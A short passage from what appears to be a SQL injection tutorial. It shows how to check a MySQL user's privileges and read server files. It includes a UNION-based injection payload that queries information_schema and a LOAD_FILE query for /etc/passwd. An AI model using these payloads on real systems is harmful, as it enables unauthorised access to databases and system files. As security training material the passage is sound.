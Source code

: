 
in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files.


So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

---

## LOAD_FILE

```sql
SELECT LOAD_FILE('/etc/passwd');
```

We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

